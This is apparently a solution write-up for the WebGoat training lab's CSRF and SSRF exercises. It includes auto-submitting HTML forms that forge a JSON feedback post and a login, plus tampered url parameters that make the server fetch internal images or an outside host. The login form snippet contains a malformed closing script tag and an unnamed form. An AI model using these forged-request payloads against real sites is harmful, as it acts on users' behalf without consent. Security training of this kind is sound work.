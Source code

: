 # Request Forgeries

## CSRF

### Basic Get CSRF Exercise

Intercept the request and change the "Host" header with another IP

### Post a review on someone else’s behalf

Send some text in "Add a Review" box and a number in below box, intercept the request and change the "Host" header with other suitable IP, send it again.

### CSRF and content-type

With a [hint](https://pentestmonkey.net/blog/csrf-xml-post-request), we need to send JSON payload from standard HTML form. Login to WebGoat, Upload following html to WebWolf and open the link to get the flag.

```html
<form name="feedback" enctype="text/plain" action="http://localhost:8080/WebGoat/csrf/feedback/message" method="POST">
    <input type="hidden" name='{"name":"name","email":"name@hh.com","subject":"service","message":"Hello' value='"}'>
</form>
<script>document.feedback.submit();</script>
```

### Login CSRF attack

We need the user `csrf-<name>` to available in the server so we need to register it first. Then just like the previous challenge, upload the html file to WebWolf and open it.

```html
<form action="http://localhost:8080/WebGoat/login" method="POST" style="width: 200px;">
    <input type="hidden" name="username" value="csrf-name">
    <input type="hidden" name="password" value="1234567890">
    <button type="submit">Sign in</button>
  </form>
<script>document.login.submit();/script>
```

## SSRF

### Find and modify the request to display Jerry

Intercept the request and modify the image to jerry.png to display the jerry's image.
`url=images%2Fjerry.png`

### Change the request so the server gets information from `http://ifconfig.pro`

Like the previous challenge:
`url=http://ifconfig.pro`
